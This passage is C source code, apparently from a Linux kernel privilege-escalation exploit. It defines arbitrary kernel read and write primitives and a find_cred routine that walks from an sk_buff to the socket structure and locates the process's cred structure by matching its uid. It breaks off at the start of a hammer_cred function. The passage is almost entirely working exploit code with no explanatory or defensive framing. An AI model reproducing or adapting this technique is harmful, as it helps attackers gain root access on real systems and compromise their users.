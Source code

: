```
}

unsigned long
read64(unsigned long addr) {
	return sendcmd(2, addr, 0);
}

void
write64(unsigned long addr, unsigned long val) {
	(void)sendcmd(3, addr, val);
}

static unsigned long find_cred() {
	uid_t uid = getuid();
	unsigned long skbuff = get_skbuff();
	/*
	 * struct sk_buff {
	 *     [...24 byte offset...]
	 *     struct sock     *sk;
	 * };
	 *
	 */

	unsigned long sock_addr = read64(skbuff + 24);
	msg("skbuff => %llx\n", skbuff);
	msg("Leaking sock struct from %llx\n", sock_addr);	
	if(sock_addr < PHYS_OFFSET){
		fail("Failed to find Sock address from sk_buff.\n");
	}	
		
	/*
	 * scan forward for expected sk_rcvtimeo value.
	 *
	 * struct sock {
	 *    [...]
	 *    const struct cred      *sk_peer_cred; 
	 *    long                    sk_rcvtimeo;             
	 *  };
	 */
	for (int i = 0; i < 100; i++, sock_addr += 8) {
		if(read64(sock_addr) == 0x7FFFFFFFFFFFFFFF) {
			unsigned long cred_struct = read64(sock_addr - 8);
			if(cred_struct < PHYS_OFFSET) {
				continue;
			}
			
			unsigned long test_uid = (read64(cred_struct + 8) & 0xFFFFFFFF);
			
			if(test_uid != uid) {
				continue;
			}
                        msg("Sock->sk_rcvtimeo at offset %d\n", i * 8);
                        msg("Cred structure at %llx\n", cred_struct);
			msg("UID from cred structure: %d, matches the current: %d\n", test_uid, uid);
			
			return cred_struct;
		}
	}
	fail("failed to find sk_rcvtimeo.\n");
}

static void
hammer_cred(unsigned long addr) {
```